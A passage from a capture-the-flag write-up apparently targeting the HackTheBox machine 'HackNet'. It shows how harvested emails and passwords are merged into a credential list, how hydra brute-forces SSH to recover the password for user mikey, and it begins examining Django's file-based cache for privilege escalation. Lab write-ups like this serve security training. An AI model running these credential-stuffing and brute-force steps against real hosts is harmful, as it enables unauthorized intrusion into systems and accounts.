 Finally we change the `filename` and we run the script again to get the passwords.

Next step is to remove domain part from emails and keep only usernames:
```bash
awk -F'@' '{print $1}' emails.txt > usernames.txt
```

Then we merge both files to get a list of valid credentials:
```bash
paste -d':' usernames.txt passwords.txt > merged.txt
```

We use `hydra` to bruteforce ssh using the valid credentials we got:
```bash
hydra -C merged.txt ssh://hacknet.htb -I
```
```
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
```

We successfully bruteforced the ssh credentials for user `mikey`.
We ssh into the machine using the credentials we got:
```bash
ssh mikey@hacknet.htb
whoami
```
```
mikey
```

## Root Exploitation

We find the web application source code in the directory `/var/www/HackNet`. We see there is a cache configuration in the `settings.py` file:
```python
CACHES = {
    'default': {
        'BACKEND': 'django.core.cache.backends.filebased.FileBasedCache',
        'LOCATION': '/var/tmp/django_cache',
        'TIMEOUT': 60,
        'OPTIONS': {'MAX_ENTRIES': 1000},
    }
}
```

We go to the cache directory and we see there are some cache files:
```bash
ls /var/tmp/django_cache
```
We see it is a empty directory.

We try to create a cache file by searching for a word in the web application. We go to `explore` page and search for the word `diego`. This creates two cache files in the cache directory:
```bash
ls /var/tmp/django_cache
```
```
647c31ce560000c70911a27dc1f6ea1e.djcache
9521ccb242c5d9b2157674d30e05cc1.djcache
```
